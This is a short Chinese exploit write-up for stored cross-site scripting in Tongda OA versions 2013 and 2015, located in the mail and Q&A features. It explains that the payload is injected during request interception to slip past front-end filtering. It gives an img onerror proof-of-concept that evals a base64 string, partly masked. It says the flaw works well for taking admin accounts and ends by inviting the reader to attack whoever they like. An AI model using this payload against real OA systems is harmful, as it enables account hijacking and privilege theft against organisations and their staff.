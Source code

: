 ```yaml
---
title: 通达oa xss
id: zhfly3338
---
```


# 通达oa xss

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤， 所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

```
<img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))> 
```

![image](../img/31be5226e8171a6c4cb247a5a873c79b.png)

![image](../img/dc09de36da29dd67cf327c7ebb28f297.png)

这个漏洞获取admin权限⾮常好用。想X谁X谁!